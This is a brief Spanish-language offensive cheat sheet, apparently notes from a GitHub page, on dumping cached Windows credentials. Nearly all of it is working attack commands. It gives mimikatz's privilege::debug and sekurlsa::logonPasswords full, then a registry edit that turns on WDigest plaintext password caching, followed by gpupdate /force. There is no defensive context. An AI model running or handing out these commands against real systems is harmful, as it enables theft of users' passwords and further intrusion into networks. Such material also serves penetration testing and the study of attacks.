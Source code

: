 ## Solo va a funcionar si el user tiene permisos de debug o es un superusuario

### Dumpear credenciales en cache con mimikatz 
    mimikatz.exe

    privilege::debug


    sekurlsa::logonPasswords full


Hay veces en que el wdigest esté protegido y no permitirá dumpear los passwords en texto plano. Para desprotegerlo (si tenemos permisos de admin):
##### cmd:


    reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1

##### Luego:
    gpupdate /force

intentamos nuevamente y tendrían que aparecer 
